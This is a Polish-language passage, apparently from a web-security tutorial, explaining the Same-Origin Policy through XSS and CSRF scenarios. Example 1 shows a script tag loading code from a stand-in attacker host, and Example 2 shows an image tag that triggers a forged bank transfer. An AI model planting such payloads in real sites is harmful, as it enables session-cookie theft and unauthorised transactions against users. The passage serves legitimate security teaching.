 ![[Pasted image 20220929182811.png | 500]]


### Scenariusze

**Przykład 1:** Mamy do czynienia ze stroną podatną na atak typu XSS. Atakujący wstrzykuje w stronę odnośnik do swojego skryptu \<script src=”http://attacker.com/xss.js”>. 
Skrypt ten oczywiście może potencjalnie bardzo zaszkodzić użytkownikom – poprzez kradzież ciastek sesyjnych, próby wyciągnięcia tajnych danych, i tym podobne. Atak ten (przynajmniej w tym wydaniu – dociąganie zewnętrznego zasobu) nie byłby możliwy gdyby polityka SOP była rygorystycznie egzekwowana przez przeglądarkę, gdyż nie pozwoliłaby ona na zamieszczenie skryptu z innego Originu.

**Przykład 2:** Rozważmy stronę bankową podatną na atak CSRF. W momencie gdy chcemy przelać pieniądze w ilości X od odbiorcy A do odbiorcy B, wykonywane jest zapytanie HTTP GET pod adres URL https://mybank.com/transfer?from=A&to=B&amount=X. Atakujący preparuje stronę na którą zwabia swoją ofiarę, a w niej osadzony jest obrazek zdefiniowany następująco: <img src=”https://mybank.com/transfer?from=A&to=B&amount=X”/>. Ofiara po wejściu na stronę nie wie, że przeglądarka bez zawahania wyśle powyższe zapytanie w jej imieniu (gdyż załączone będą jej dane uwierzytelniające – na przykład ciastko sesyjne). Po raz kolejny, gdyby polityka SOP była sztywno egzekwowana, ten atak by się nie udał (zapytanie do Originu banku z Originu strony atakującego zostałoby zablokowane).

Jak widać, polityka SOP jest stosowana dość wybiórczo. Przykładowo, nie ma ograniczeń w zamieszczaniu obrazków z innych Originów, lub wysyłania formularzy (nawet automatycznego!) do innych Originów, a zatem (co wynika z tego) – wykonywania zapytań GET i prostych POST do innych Originów. Nie ma też ograniczeń co do zamieszczania skryptów Javascript z innych Originów, choć już na przykład skrypty te są częściowo izolowane (na przykład nie możemy wczytać kodu źródłowego skryptu z innego Originu), co akurat jest zgodne z SOP. Ciastka w pewnym sensie podlegają polityce SOP (na przykład nie można na Originie https://google.com ustawić ciastka dla https://facebook.com), ale z licznymi wyjątkami (na przykład domyślnie schemat nie ma znaczenia, a także mogę ustawić ciastko dla domeny, której jestem subdomeną – a więc na przykład ciastko ustawione na Originie http://sub.google.com dla Originu https://google.com).

**Przykład 3:** Dowolna strona która pod pewnym adresem URL zwraca po zapytaniu GET wrażliwe dane. Wyobraźmy sobie atak podobny do CSRF – zwabiamy ofiarę na złośliwą stronę, która wykonuje to zapytanie. Dane wracają do strony atakującego, **ale** **na maszynie ofiary** (w końcu to atak typu CSRF!). Chcielibyśmy je przesłać teraz atakującemu, tylko… nie możemy! W końcu, zastanówmy się, jak? Standardowe tricki typu tag <img> z odpowiednim źródłem wykonają zapytanie, ale nie umożliwią dostępu do zwróconych danych. Jedyny mechanizm który umożliwia taki dostęp w teorii (to znaczy – posiada odpowiednie API) to XHR, ale on też nam nie pomoże – odmówi przekazania danych pomiędzy Originami, właśnie dzięki SOP! #sop_xhr

Ponieważ wyjątków jest wiele, warto spróbować uprościć trochę sprawę. I tak, w kontekście SOP, uproszczona “reguła kciuka” wygląda następująco:

-   **“Zapis”** (wykonanie zapytania) Cross-Origin z reguły **jest możliwy** (przykład: wykonanie zapytania GET przy pobieraniu obrazka, lub wysyłanie formularza)
-   **“Osadzenie”** (użycie zwróconej odpowiedzi bez znajomości jej treści) Cross-Origin z reguły jest możliwe (przykład: osadzenie elementu – obrazka, ramki, skryptu – na stronie)
-   **“Odczyt”** (poznanie treści zwróconej odpowiedzi) Cross origin z reguły **nie jest możliwy** (przykład: wczytanie treści skryptu lub odpowiedzi XHR)

Oczywiście, uproszczona znaczy też “nie zawsze działa”, gdyż wyjątków trochę jest – jako punkt startowy jednak, sprawdzi się całkiem nieźle.

Na marginesie: zainteresowanym szczegółami SOP polecam niezwykle obszerne opracowanie tego tematu autorstwa Michała Zalewskiego (lcamtuf) – albo w postaci dostępnego online opracowanian [Browser Security Handbook](https://code.google.com/archive/p/browsersec/wikis/Main.wiki) (pozycja trochę leciwa), albo w postaci książki [The Tangled Web](http://lcamtuf.coredump.cx/tangled/)

Wspomnę też, że mamy możliwość zaostrzania zachowania przeglądarek, co pozwala nam emulować bardziej rygorystyczną politykę SOP niż ta domyślna. Przykładem tu jest choćby Content Security Policy, opisywane na Sekuraku zarówno [w wersji 1.0](https://sekurak.pl/czym-jest-content-security-policy/), [jak i 2.0](https://sekurak.pl/wszystko-o-csp-2-0-content-security-policy-jako-uniwersalny-straznik-bezpieczenstwa-aplikacji-webowej/)– nie to jednak jest tematem naszego artykułu.